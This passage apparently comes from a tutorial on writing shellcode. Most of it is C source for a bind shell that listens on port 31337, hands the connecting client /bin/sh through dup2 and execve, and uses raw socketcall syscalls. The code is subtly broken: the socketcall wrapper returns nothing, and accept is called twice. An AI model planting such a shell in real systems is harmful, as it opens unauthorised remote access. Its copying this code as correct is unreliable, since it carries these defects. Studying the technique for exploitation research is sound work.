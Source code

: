 Add that to the code, we can now compile, and convert the rest of our
remote shell to `socketcalls()`

``` {.c}
//socketcall-rsh.c
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/net.h>
#include <sys/syscall.h>

int socketcall(int call, long * args){
  int res;
  res = syscall(SYS_socketcall, call, args);
}


int main(void){
  int server, client; //server and client socket
  struct sockaddr_in host_addr, client_addr; //address structures
  socklen_t sin_size ; //store size

  //socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
  int socket_args[] = {AF_INET,SOCK_STREAM,0};
  server = socketcall(SYS_SOCKET, (long *) socket_args);

  //set up server address
  memset(&host_addr, '\0', sizeof(struct sockaddr_in));
  host_addr.sin_family=AF_INET;
  host_addr.sin_port=htons(31337);
  host_addr.sin_addr.s_addr=INADDR_ANY;

  //bind
  int bind_args[] = {server, (int) &host_addr, sizeof(struct sockaddr)};
  socketcall(SYS_BIND, (long *) bind_args);

  //set up listening queue
  int listen_args[] = {server, 4};
  socketcall(SYS_LISTEN, (long *) listen_args);


  sin_size = sizeof(struct sockaddr_in);

  //accept incoming connection
  int accept_args[] = {server, (int) &client_addr, (int) &sin_size};
  client = socketcall(SYS_ACCEPT, (long *) accept_args);
  client = accept(server, (struct sockaddr *) &client_addr, &sin_size);


  //duplicate file descriptors for socket
  dup2(client, 0);
  dup2(client, 1);
  dup2(client, 2); 

  //execve shell
  char *args[2]={"/bin//sh", NULL};
  execve(args[0], args, NULL);

  return 0;
}
```
